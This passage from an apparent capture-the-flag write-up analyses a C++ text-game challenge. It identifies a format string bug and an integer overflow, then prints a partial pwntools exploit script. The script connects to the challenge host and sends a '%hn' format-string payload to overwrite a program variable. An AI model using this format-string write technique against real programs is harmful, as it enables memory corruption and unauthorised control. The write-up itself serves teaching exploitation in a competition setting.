 		} else if(input == "2"){
			work();
		} else if(input == "3"){
			purchase();
		} else if(input == "4"){
			return 0;
		} else {
			std::cout << "Invalid input" << std::endl;
		}
	} while(true);
}
{% endhighlight %}
it's written in C++, there is a format string bug on the name variable when we bought `shout-out-from-literally-god` 
and integer overflow on `place_bet` function.<br/>
to solve this challenge we can just bet till we got a lot of money to buy `shout-out-from-literally-god`, 
after that, we use format string bug to overwrite `god_is_really_happy` <br/>

my exploit:
{% highlight python %}
from pwn import *
from ctypes import *
import subprocess

context.arch = "amd64"
context.os = "linux"
r = remote("host1.metaproblems.com",5950)
# r = process("./text-game")
context.update(arch="amd64", endian="little", os="linux", log_level="info",
               terminal=["tmux", "split-window", "-v", "-p 85"],)
LOCAL = True

def attach(r):
    if LOCAL:
        bkps = ["* 0x3521"]
        gdb.attach(r, '\n'.join(["pie break %s"%(x,) for x in bkps]))
    return

def init(d):
    r.sendlineafter("name?\n",d)

def betting(n):
    r.sendlineafter("continue...\n","1")
    r.sendlineafter("cancel\n","heads")
    r.recvuntil("1 and ")
    my_okane = r.recvline().replace(".","")
    log.info("okane: " + my_okane)
    r.sendline(n)
    return my_okane
    
def main():
    # attach(r)
    # init("AAAAAAAA%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p")
    init("%{}c%12$hn".format((0x0000) & 0xffff))
    current_okane = 0

    okane = 150
    for i in range(50):
        r.sendline('1')
        r.sendline("heads")